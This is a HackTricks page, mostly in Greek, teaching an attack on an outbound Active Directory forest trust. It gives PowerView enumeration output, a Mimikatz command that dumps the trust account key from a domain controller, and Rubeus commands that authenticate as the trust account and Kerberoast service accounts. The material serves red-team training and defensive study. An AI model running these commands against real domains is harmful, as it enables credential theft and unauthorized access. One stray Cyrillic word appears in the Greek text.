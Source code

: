# External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτό το σενάριο **το domain σας** **εμπιστεύεται** κάποιες **privileges** σε κύριους από **διαφορετικά domains**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Μια ευπάθεια ασφαλείας υπάρχει όταν μια σχέση εμπιστοσύνης καθορίζεται μεταξύ δύο τομέων, που αναγνωρίζονται εδώ ως τομέας **A** και τομέας **B**, όπου ο τομέας **B** επεκτείνει την εμπιστοσύνη του στον τομέα **A**. Σε αυτή τη ρύθμιση, δημιουργείται ένας ειδικός λογαριασμός στον τομέα **A** για τον τομέα **B**, ο οποίος παίζει κρίσιμο ρόλο στη διαδικασία πιστοποίησης μεταξύ των δύο τομέων. Αυτός ο λογαριασμός, που σχετίζεται με τον τομέα **B**, χρησιμοποιείται για την κρυπτογράφηση εισιτηρίων για την πρόσβαση σε υπηρεσίες μεταξύ των τομέων.

Η κρίσιμη πτυχή που πρέπει να κατανοηθεί εδώ είναι ότι ο κωδικός πρόσβασης και το hash αυτού του ειδικού λογαριασμού μπορούν να εξαχθούν από έναν Domain Controller στον τομέα **A** χρησιμοποιώντας ένα εργαλείο γραμμής εντολών. Η εντολή για την εκτέλεση αυτής της ενέργειας είναι:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Αυτή η εξαγωγή είναι δυνατή επειδή ο λογαριασμός, που αναγνωρίζεται με ένα **$** μετά το όνομά του, είναι ενεργός και ανήκει στην ομάδα "Domain Users" του τομέα **A**, κληρονομώντας έτσι τις άδειες που σχετίζονται με αυτήν την ομάδα. Αυτό επιτρέπει σε άτομα να πιστοποιούνται κατά του τομέα **A** χρησιμοποιώντας τα διαπιστευτήρια αυτού του λογαριασμού.

**Προειδοποίηση:** Είναι εφικτό να εκμεταλλευτεί κανείς αυτή την κατάσταση για να αποκτήσει πρόσβαση στον τομέα **A** ως χρήστης, αν και με περιορισμένες άδειες. Ωστόσο, αυτή η πρόσβαση είναι επαρκής για να εκτελέσει καταμέτρηση στον τομέα **A**.

Σε ένα σενάριο όπου το `ext.local` είναι ο τομέας εμπιστοσύνης και το `root.local` είναι ο εμπιστευμένος τομέας, θα δημιουργηθεί ένας λογαριασμός χρήστη με το όνομα `EXT$` εντός του `root.local`. Μέσω συγκεκριμένων εργαλείων, είναι δυνατόν να εκφορτωθούν τα κλειδιά εμπιστοσύνης Kerberos, αποκαλύπτοντας τα διαπιστευτήρια του `EXT$` στο `root.local`. Η εντολή για να επιτευχθεί αυτό είναι:
```bash
lsadump::trust /patch
```
Ακολουθώντας αυτό, θα μπορούσε να χρησιμοποιήσει το εξαγόμενο κλειδί RC4 για να πιστοποιηθεί ως `root.local\EXT$` εντός του `root.local` χρησιμοποιώντας μια άλλη εντολή εργαλείου:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Αυτό το βήμα αυθεντικοποίησης ανοίγει τη δυνατότητα να καταμετρήσουμε και ακόμη και να εκμεταλλευτούμε υπηρεσίες εντός του `root.local`, όπως η εκτέλεση μιας επίθεσης Kerberoast για την εξαγωγή διαπιστευτηρίων λογαριασμού υπηρεσίας χρησιμοποιώντας:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Συλλογή καθαρού κωδικού εμπιστοσύνης

Στην προηγούμενη ροή χρησιμοποιήθηκε το hash εμπιστοσύνης αντί για τον **καθαρό κωδικό** (ο οποίος επίσης **dumped από το mimikatz**).

Ο καθαρός κωδικός μπορεί να αποκτηθεί μετατρέποντας την έξοδο \[ CLEAR ] από το mimikatz από δεκαεξαδικό και αφαιρώντας τα null bytes ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Μερικές φορές, κατά τη δημιουργία μιας σχέσης εμπιστοσύνης, ένας κωδικός πρέπει να πληκτρολογηθεί από τον χρήστη για την εμπιστοσύνη. Σε αυτή τη демонстрация, το κλειδί είναι ο αρχικός κωδικός εμπιστοσύνης και επομένως αναγνώσιμο από άνθρωπο. Καθώς το κλειδί κυκλώνει (30 ημέρες), ο καθαρός κωδικός δεν θα είναι αναγνώσιμος από άνθρωπο αλλά τεχνικά θα είναι ακόμα χρήσιμος.

Ο καθαρός κωδικός μπορεί να χρησιμοποιηθεί για κανονική αυθεντικοποίηση ως ο λογαριασμός εμπιστοσύνης, μια εναλλακτική λύση για την αίτηση ενός TGT χρησιμοποιώντας το μυστικό κλειδί Kerberos του λογαριασμού εμπιστοσύνης. Εδώ, ερωτώντας το root.local από το ext.local για μέλη των Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Αναφορές

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
